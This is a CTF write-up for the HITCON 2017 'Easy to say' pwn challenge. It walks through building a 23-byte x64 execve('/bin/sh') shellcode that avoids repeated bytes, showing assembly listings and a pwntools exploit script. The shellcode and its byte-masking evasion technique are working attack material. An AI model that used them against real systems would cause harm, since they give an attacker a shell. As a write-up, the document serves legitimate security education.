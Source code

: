 ```yaml
---
title: "Hitcon2017 -- EasyToSay Writeup"
categories:
  - Hitcon2017
tags:
  - CTF
  - pwn
  - shellcode
---
```


<div class="notice--info">
<strong>Name</strong>: Easy to say<br>
<strong>Category</strong>: pwn<br>
<strong>Points</strong>: 144<br>
<strong>Solves</strong>: 139<br>
<strong>Given</strong>: <code>easy_to_say</code>
</div>


# Solution:
## The problem
After reversing the binary we easily see the program will run any shellcode we give it with the following conditions:
1. is shorter than 24 bytes
2. does not have repeated bytes

After a little debugging we also see that before executing our shellcode all registers are zero'd.

## How do we prevent repeated bytes?
In this section I will go through the ideias I had before arriving at the final solution.

### 1. Basic x64 shellcode

First lets try a **basic x64 shellcode** and see if there are any reapeating bytes. That looks something like :
1. put '/bin/sh\x00' on the stack
2. put that stack address in rdi (filename)
3. make rsi (argv) equal 0
4. make rdx (envp) equal 0
5. call the execve syscall (a syscall table for x64 can be found [here](http://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/))

We get step 3 and 4  for free since all registers are already zero'd from the start. The rest looks something like this:

```assembly
68 2f 73 68 00      push   0x0068732f   ; 1. '/sh\x00'
68 2f 62 69 6e      push   0x6e69622f   ; 1. '/bin'
48 89 e7            mov    rdi, rsp      ; 2. Put the '/bin//sh' addr in rdi
b0 3b               mov    al, 0x3b      ; 5. Mov to rax the execve syscall number
0f 05               syscall             ; 5. call it
```

### 2. Can't have 2 push's

As we can see on the left there are repeated bytes in the first two intructions.
Having 2 `push`s is not an option since the opcode will be repeated. Lets try and do it with a `mov` intead of a `push` and see if we have better luck.
```assembly
c7 04 24 2f 73 68 00    mov    DWORD PTR [rsp], 0x0068732f
68 2f 62 69 6e          push   0x6e69622f
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```
That is better but '/bin/sh\x00' contains two '/' (2f) and that is a problem since it is a repeated byte.

Also the byte 0x68 is repeated since it is the opcode of `push` and also the letter `'h'`.

Let's try another version:
```assembly
49 bc 2f 62 69 6e 2f    movabs r12,0x68732f6e69622f
73 68 00
41 54                   push   r12
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```
Alright, now we only have to somehow remove the extra '/'.

At this point I tried using just `sh` or `bash`, but the execve syscall only works with a full path, making the two slashes necessary.


### 3. Masking the repeated '/'
Now the plan is to mask the slash. Instead of putting a slash there directly we want to:
1. mask `'/'` by sending the value of `'/' - 1`
2. unmask it by adding `1`, making it a `'/'` again.
```assembly
49 bc 2f 62 69 6e 2e    movabs r12,0x68732e6e69622f
73 68 00
41 54                   push   r12
fe 44 24 04             inc    BYTE PTR [rsp+0x4]
48 89 e7                mov    rdi, rsp
b0 3b                   mov    al, 0x3b
0f 05                   syscall
```

That worked! No repeated bytes and a length of 23. Just under the 24 byte limit!

# Exploit
```python
from pwn import *

context.arch = 'amd64'
context.os = 'linux'

def go():
    s = process("./easy_to_say")
    # s = remote("52.69.40.204", 8361)

    shellcode = asm(\
    """
        mov r12, %s
        push r12
        inc byte ptr [rsp+0x4]
        mov rdi, rsp
        mov al, 59
        syscall
    """ % (hex(u64("/bin" + chr(ord('/') - 1) + "sh\x00"))))


    # Check if there are any repeated bytes
    for i in range(len(shellcode)):
        for j in range(i):
            if shellcode[i] == shellcode[j]:
                print i, "==", j, "(", hex(ord(shellcode[j])), ")"
    print "There are %d bytes repeated in the shellcode." % (len(shellcode) - len(set(shellcode)))
    print "Shellcode of len: ", len(shellcode)
    print disasm(shellcode)

    s.sendline(shellcode)
    s.interactive()

go()
```